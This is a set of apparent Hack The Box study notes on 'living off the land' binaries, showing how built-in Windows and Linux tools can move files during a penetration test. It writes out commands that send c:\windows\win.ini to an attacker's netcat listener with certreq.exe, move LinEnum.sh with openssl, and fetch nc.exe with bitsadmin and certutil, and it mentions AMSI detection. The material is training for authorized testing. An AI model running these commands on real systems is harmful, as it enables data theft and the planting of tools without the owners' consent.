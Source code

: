 ### **Living off The Land**

The phrase "Living off the land" was coined by Christopher Campbell (@obscuresec) and Matt Graeber (@mattifestation) at DerbyCon 3.

The term **LOLBins** (Living off the Land binaries) originated from a Twitter discussion about naming binaries that attackers can use to perform actions beyond their original purpose. Two primary websites aggregate information on Living off the Land binaries:

- **LOLBAS Project** for Windows Binaries https://lolbas-project.github.io/
    
- **GTFOBins** for Linux Binaries https://gtfobins.github.io/
    

### Common Uses of Living off the Land Binaries

Living off the Land binaries can be used to perform various functions, including:

- Download
    
- Upload
    
- Command Execution
    
- File Read
    
- File Write
    
- Bypasses
    

This guide focuses on using the LOLBAS and GTFOBins projects, providing examples for download and upload functions on Windows and Linux systems.

---

### Using the LOLBAS and GTFOBins Projects

#### LOLBAS (Windows)

To search for download and upload functions in LOLBAS, use the `/download` or `/upload` search options.

**Example: Using CertReq.exe**

1. Listen on a port on the attack host using Netcat.
    
2. Execute `certreq.exe` to upload a file.
    

**Command:**

```
C:\htb> certreq.exe -Post -config http://192.168.49.128:8000/ c:\windows\win.ini
```

**Netcat Session Output:**

```
0xs5@htb[/htb]$ sudo nc -lvnp 8000

listening on [any] 8000 ...
connect to [192.168.49.128] from (UNKNOWN) [192.168.49.1] 53819
POST / HTTP/1.1
Cache-Control: no-cache
Connection: Keep-Alive
Pragma: no-cache
Content-Type: application/json
...
[Mail]
MAPI=1
```

**Note:** If `certreq.exe` throws an error, ensure it supports the `-Post` parameter. Updated versions are available online.

#### GTFOBins (Linux)

To search for download and upload functions in GTFOBins, use `+file download` or `+file upload`.

**Example: Using OpenSSL** OpenSSL is frequently installed and can be used for file transfer similarly to Netcat.

1. Create a certificate and start a server on the attack host:
    

**Commands:**

```
0xs5@htb[/htb]$ openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out certificate.pem

0xs5@htb[/htb]$ openssl s_server -quiet -accept 80 -cert certificate.pem -key key.pem < /tmp/LinEnum.sh
```

2. Download the file from the compromised machine:
    

**Command:**

```
0xs5@htb[/htb]$ openssl s_client -connect 10.10.10.32:80 -quiet > LinEnum.sh
```

---

### Other Common Living off the Land Tools

#### Bitsadmin

The **Background Intelligent Transfer Service (BITS)** can download files from HTTP sites and SMB shares while minimizing impact on user activity.

**File Download with Bitsadmin:**

```
PS C:\htb> bitsadmin /transfer wcb /priority foreground http://10.10.15.66:8000/nc.exe C:\Users\htb-student\Desktop\nc.exe
```

**PowerShell Integration:**

```
PS C:\htb> Import-Module bitstransfer; Start-BitsTransfer -Source "http://10.10.10.32:8000/nc.exe" -Destination "C:\Windows\Temp\nc.exe"
```

#### Certutil

Certutil, a utility included in all Windows versions, can download files. However, **AMSI** often flags its usage as malicious.

**Command:**

```
C:\htb> certutil.exe -verifyctl -split -f http://10.10.10.32:8000/nc.exe
```

---

### Practice and Exploration

- Explore the **LOLBAS** and **GTFOBins** websites.
    
- Experiment with various file transfer methods.
    
- Take detailed notes on obscure techniques; they can save time during assessments.
    

### Detection and Evasion

The final sections will cover:

- Detection considerations for file transfers.
    
- Steps to evade detection during assessments requiring evasive testing.